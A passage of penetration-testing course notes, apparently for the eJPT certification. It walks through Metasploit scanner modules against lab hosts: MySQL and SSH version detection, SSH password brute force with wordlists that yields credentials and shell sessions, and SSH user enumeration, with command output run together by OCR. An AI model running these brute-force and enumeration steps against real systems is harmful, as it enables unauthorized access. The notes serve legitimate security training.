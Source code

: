 > **`auxiliary/scanner/mysql/mysql_version`**

search type:auxiliary name:mysqluse auxiliary/scanner/mysql/mysql\_versionoptionsrun\[+] 192.64.22.3:3306 - 192.64.22.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)# MySQL and Ubuntu versions enumerated!

> **`auxiliary/scanner/mysql/mysql_writable_dirs`**

* Check the MySQL Enumerated data within MSF:

hostsserviceslootcreds![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e00dc1815b532662bee3be7fd6657f8eccd1abd4%2Fimage-20230413133324466.png?alt=media)

**​**[**SSH**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ssh-enum)**​**

> 🔬 [Metasploit - SSH Login](https://attackdefense.com/challengedetails?cid=1526)​

ip -br -c asetg RHOSTS 192.127.196.3setg RHOST 192.127.196.3workspace -a SSH\_ENUM

> **`auxiliary/scanner/ssh/ssh_version`**

search type:auxiliary name:sshuse auxiliary/scanner/ssh/ssh\_versionoptionsrun\[+] 192.127.196.3:22 - SSH server version: SSH-2.0-OpenSSH\_7.9p1 Ubuntu-10 ( service.version=7.9p1 openssh.comment=Ubuntu-10 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:7.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=19.04 os.cpe23=cpe:/o:canonical:ubuntu\_linux:19.04 service.protocol=ssh fingerprint\_db=ssh.banner )# SSH-2.0-OpenSSH\_7.9p1 and Ubuntu 19.04

> **`auxiliary/scanner/ssh/ssh_login`**

search ssh\_loginuse auxiliary/scanner/ssh/ssh\_login# for password authenticationoptionsset USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtset PASS\_FILE /usr/share/metasploit-framework/data/wordlists/common\_passwords.txtrun\[+] 192.127.196.3:22 - Success: 'sysadmin:hailey' ''\[\*] Command shell session 1 opened (192.127.196.2:37093 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'rooty:pineapple' ''\[\*] Command shell session 2 opened (192.127.196.2:44935 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'demo:butterfly1' ''\[\*] Command shell session 3 opened (192.127.196.2:39681 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'auditor:xbox360' ''\[\*] Command shell session 4 opened (192.127.196.2:42273 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'anon:741852963' ''\[\*] Command shell session 5 opened (192.127.196.2:44263 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'administrator:password1' ''\[\*] Command shell session 6 opened (192.127.196.2:39997 -> 192.127.196.3:22)\[+] 192.127.196.3:22 - Success: 'diag:secret' ''

* This module sets up SSH sessions

![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-7e5cd4807505d1993711dd2568be44f6427b7d0d%2Fimage-20230413143027661.png?alt=media)

> **`auxiliary/scanner/ssh/ssh_enumusers`**

search type:auxiliary name:sshuse auxiliary/scanner/ssh/ssh\_enumusersoptionsset USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtrun\[+] 192.127.196.3:22 - SSH - User 'sysadmin' found\[+] 192.127.196.3:22 - SSH - User 'rooty' found\[+] 192.127.196.3:22 - SSH - User 'demo' found\[+] 192.127.196.3:22 - SSH - User 'auditor' found\[+] 192.127.196.3:22 - SSH - User 'anon' found\[+] 192.127.196.3:22 - SSH - User 'administrator' found\[+] 192.127.196.3:22 - SSH - User 'diag' found

**​**[**SMTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/smtp-enum)**​**
